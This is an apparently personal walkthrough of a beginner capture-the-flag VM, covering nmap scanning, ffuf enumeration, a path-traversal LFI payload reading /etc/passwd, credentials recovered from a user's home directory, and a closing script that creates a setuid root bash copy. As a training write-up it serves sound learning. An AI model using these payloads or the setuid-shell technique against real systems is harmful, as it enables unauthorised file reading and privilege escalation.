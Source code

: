 
Documentation for the third box of the POC serie, a beginer box used to familarize with pentest tools and procedures.


# BOX POC 3

For this box, only an OVA for a virtual machine is provided, where I can see IP for beginning my pentest : 192.168.56.106, I put this in an $ip var.

---

## Summary

1. [Scan](#scan)
2. [Web Enumeration](#Web-Enumeration)
3. [SSH shell](#SSH-shell)

---

## Scan

We begin with a classic discovery of the network with this nmap command : ```nmap -sS -sV -sC -T4 $ip```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2025-07-18 10:37 CEST
Nmap scan report for 192.168.56.106
Host is up (0.00020s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 0e3ff44153b6271ab0a5c065b09d0b53 (RSA)
|   256 3891c5b542d638dc7245a7685e768099 (ECDSA)
|_  256 d7dc16365b235097ccfe2169b72a00d3 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Colors Change
MAC Address: 08:00:27:EF:0F:1C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.87 seconds
```

### Nmap scan summary

#### Port 22

Port 22 (SSH) is open and running OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
Possible bruteforce / weak user access. Version might be vulnerable.

#### Port 80

Port 80 (HTTP) is open and running Apache httpd 2.4.38 ((Debian))
Web service. We can start by exploring it manually and then fuzzing/enumeration.

## Web enumeration

With a web enumeration ```ffuf -c -w '/usr/share/wordlists/seclists/Discovery/Web-Content/common.txt' -u "http://$ip/FUZZ"```, I found a robot.txt, containing this :
```
Allow: /backup.zip
```

That mean that we can get this file, so I download it and unzip it with ```wget http://192.168.56.106/backup.zip && unzip backup.zip```to find the first flag inside ```index.php```.

```<?php #FLAG1{LA-VARIABLE-COLOR-EST-VULNERABLE-LFI} ?>```

The hint saying that the color variable is the vulnerability.

And the website is a basic "click to change the color" site, so when you click to a color, I seen in network inspector mode that the webservice send a request for changing the color.
As I can see too, the color is simply put in hexadecimal in the url like that : ```http://192.168.56.106/?color=%23cfc932```, so we can try to navigate through files like this :

```http://192.168.56.106/?color=../../../../../../etc/passwd``` 

And it worked :

<img width="696" height="841" alt="website passwd" src="https://github.com/user-attachments/assets/10a38baf-5b3c-4fad-9239-1b86eb9f7d1e" />

Here we can see two entries that can be interesting :

```
alix:x:1000:1000::/home/alix:/bin/bash
god:x:1001:1001::/home/god:/bin/bash
```

Thoses are probably usefull accounts and a potential target.
And in the "home" of www-data, the account used to manage webservice, ```http://192.168.56.106/?color=../../../../../var/www/html```, I can see a long character named file with the second flag inside :

```http://192.168.56.106/a74ae8e0d7cf015376f24c2fefdfe385193d62f0ac0184c3ddac7486b7fc116fa06c652f2602f8ba78bd89aade1ea4a242a12869e021d92a6d5e3c8f69f1bd0d/FLAG```

The flag saying that home directory is the key

```FLAG2{LE-REPERTOIRE-HOME-EST-LA-CLEE}```


So by navigating like that in the home, I can find the home of Alix :

```
drwxr-xr-x 3 alix alix  4096 Nov  1  2023 .
drwxr-xr-x 4 root root  4096 Jan 16  2022 ..
lrwxrwxrwx 1 root root     9 May 28  2022 .bash_history -> /dev/null
-rw-r--r-- 1 alix alix   125 Jan 16  2022 .hint
drwxr-xr-x 3 alix alix  4096 Jan 16  2022 .local
-rw-r--r-- 1 alix alix   807 Apr 18  2019 .profile
-rw-r--r-- 1 alix alix    31 Jan 16  2022 .secret-credentials
-rw-r--r-- 1 alix alix    39 Jan 16  2022 FLAG3.txt
-rwxrwxrwx 1 alix alix 18791 Jul 18 16:29 log
-rwxr-xr-x 1 alix alix    32 May 28  2022 script.sh
```

And here is the third flag ```FLAG3{LE-SCRIPT-EST-PAS-LA-PAR-HASARD}``` saying that the script is there for a reason, probably reffering to the script.sh.

Also the file .hint with this hint inside :
```
J'ai entendu dire qu'un utilisateur du systeme avait mis une tâche planifiée sur un script 

Peut être le "script.sh" ???
```

Meaning that a user may have added a scheduled task (crontab) on a script, maybe "script.sh".

And finaly the .secret-credentials with logins :

```
user: alix
password: Qwerty987
```

I try thoses logins with the ssh as we seen before that the 22 port is open, and bingo I'm logged as alix.


## SSH shell


```
#!/bin/bash

cp /bin/bash /home/alix/rootbash
chmod +s /home/alix/rootbash
chmod 755 /home/alix/rootbash
```
